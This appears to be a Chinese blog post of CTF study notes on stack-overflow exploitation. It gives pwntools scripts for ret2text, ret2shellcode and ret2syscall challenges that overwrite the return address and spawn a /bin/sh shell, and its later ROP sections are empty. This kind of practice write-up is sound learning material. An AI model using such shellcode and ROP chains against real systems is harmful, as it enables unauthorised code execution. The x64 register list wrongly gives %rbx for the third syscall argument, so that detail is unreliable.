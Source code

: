 ```yaml
---
sytitle: Pwn入门 - Part III Stack Overflow实战(CTFWIKI)
date: 2022-1-9 14:09:00 +0800
author: sirius
categories: [CTF]
tags: [CTF, pwn]
math: false
typora-root-url: ../../SiriusHsh.github.io
typora-copy-images-to: ../assets/img/2022
---
```


##  CTF wiki

## 基本ROP

CTF wiki上的题目都是32位的，32位的和64位的区别在于

> **函数参数**
>
> - X86
>
>   - 函数的参数放在栈上，在函数返回地址的上方
>
>     ![image-20220109222121679](/assets/img/2022/image-20220109222121679.png){: .normal}
>
>     就像这样调用gets前，将参数（这里是待赋值的变量的地址）压入栈（放在esp上）
>
> - x64
>
>   - 函数的前6个参数放在寄存器里，其余的才会放在栈上

> **系统调用**
>
> - x86
>   - 寄存器： %eax, arg0(%ebx), arg1(%ecx), arg2(%edx)  .etc
>   - 系统调用 int 0x80
> - x64
>   - 寄存器：%rax, arg0(%rdi), arg1(%rsi), arg2(%rbx)   .etc
>   - 系统调用 syscall

### # ret2text

通过debug一下

![image-20220109225355822](/assets/img/2022/image-20220109225355822.png)

可以看到，实际上s相较于ebp的偏移是0x6c个字节。

![image-20220109225923257](/assets/img/2022/image-20220109225923257.png)

exp:

```python
from pwn import *

r = process('./ret2text')

magic_addr = 0x804863A
r.recvuntil('anything?\n')
p = 'a'*(0x6c+0x4)+p32(magic_addr)
r.sendline(p)

r.interactive()
```

### # ret2shellcode

![image-20220123221740937](/assets/img/2022/image-20220123221740937.png)

```python
from pwn import *


r = process('./ret2shellcode')

r.recvuntil('!!!\n')
shell = asm(shellcraft.sh())
p = shell.ljust(0x6c+0x4, 'a') + p32(0x0804A080)

r.sendline(p)

r.interactive()
```

### ret2syscall

![image-20220123220116190](/assets/img/2022/image-20220123220116190.png)

查找`/bin/sh`的正确姿势

![image-20220123220910645](/assets/img/2022/image-20220123220910645.png){: .normal}

![image-20220123221254741](/assets/img/2022/image-20220123221254741.png)

```python
from pwn import *


r = process('./rop')

r.recvuntil('plan to do?\n')

pop_eax = 0x080bb196 # pop eax ; ret
pop_edx_ecx_ebx = 0x0806eb90 # pop edx ; pop ecx ; pop ebx ; ret
int_0x80 = 0x08049421 # int 0x80
sh = 0x080be408 # /bin/sh

p = 'a'*(0x6c+0x4)
p += p32(pop_edx_ecx_ebx)
p += p32(0)
p += p32(0)
p += p32(sh)
p += p32(pop_eax)
p += p32(0xb)
p += p32(int_0x80)

r.sendline(p)
r.interactive()
```

## 中级ROP



## 高级ROP

